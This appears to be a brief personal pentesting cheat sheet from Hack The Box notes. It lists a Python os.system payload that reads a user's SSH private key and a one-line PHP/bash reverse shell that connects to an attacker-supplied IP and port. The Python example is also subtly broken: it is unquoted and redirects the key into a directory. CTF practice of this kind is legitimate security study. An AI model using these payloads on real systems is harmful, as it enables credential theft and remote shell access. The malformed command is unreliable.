 ## Python
- `import os; os.system({BASH COMMAND})` ex. from [Share - Writeup](<HTB Machines/Share - Writeup.md>) `import os; os.system(cat ~/.ssh/id_rsa > /tmp)` this command was used in order to get the id_rsa of the user running the process in order to enter to the user via ssh with no password

## PHP
- `<?php bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1' ?>` - Basic PHP reverse shell